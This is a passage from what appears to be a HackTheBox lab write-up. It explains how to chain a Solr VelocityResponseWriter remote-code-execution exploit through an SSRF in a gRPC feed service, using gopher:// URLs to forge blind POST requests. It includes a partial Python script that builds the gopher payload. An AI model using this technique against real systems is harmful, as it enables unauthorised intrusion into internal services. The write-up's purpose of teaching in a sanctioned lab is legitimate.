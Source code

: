 The exploit breaks down into three parts:
1. Request the list of modules or “cores” from the system with a GET to `/admin/cores`.
2. For each core in the response, send a post to `/solr/[core]/config` with a JSON body that turns on the `VelocityResponseWriter` class.
3. A GET request to `/solar/[core]/select` with parameters that trigger the RCE.

#### Strategy

I suspect this exploit will work here (I don’t have better ideas), but I have a few issues to overcome.
1. In the typical case, the responses to the commands come back in the HTTP requests. But I can’t make a direct HTTP request to the service, but rather only bounce requests through the gRPC instance, which only sends an error or “Pushing feeds”. I’m going to have to do this blind.
2. I need to be able to send a POST request.

To solve the first, I can choose a command like `ping` to test RCE, and then go to a shell. Most exploits do query for the core list first, but since I’m going blind, I can’t grab that. I did get the reference to a “staging core” in the PDF, so I’ll try that. I also have a couple examples in the last two references above, where they use `test` and `atom` as cores. I’ll try those if `staging` doesn’t work.

To solve the second, I’ll use [Gopher](https://en.wikipedia.org/wiki/Gopher_(protocol)). I used this technique in [Travel](/2020/09/12/htb-travel.html#gopher), and showed some of the details of how it works there. At a high level, I can use `gopher://` to send a raw request where I can define all the content (unlike HTTP which adds headers) and all in the url. So I can use Gopher to create a POST request.

#### Local

Because it gets tricky creating HTTP requests from Gopher, I’m going to first have it send requests to me so I can verify they work. Then I’ll change the host.

I created another script which looks a lot like the first two, this time, with the url passed in being a `gopher` payload that will issue a GET request back to my box:

```

#!/usr/bin/env python3

import base64
import grpc
import pickle
import feedengine_pb2
import feedengine_pb2_grpc
from urllib.parse import quote

grpc_payload = """{{
    "version": "v1.0",
    "title": "Printer Feed",
    "home_page_url": "",
    "feed_url": "{url}",
    "items": [
        {{
            "id": "2",
            "content_text": "Queue jobs"
        }},
        {{
            "id": "1",
            "content_text": "Failed items"
        }}
    ]
}}"""

host = "gopher://10.10.14.9:8983/_"
http1 = host + quote("GET /staging/cores HTTP/1.1\n\n", safe='')

channel = grpc.insecure_channel('10.10.10.201:9000')
```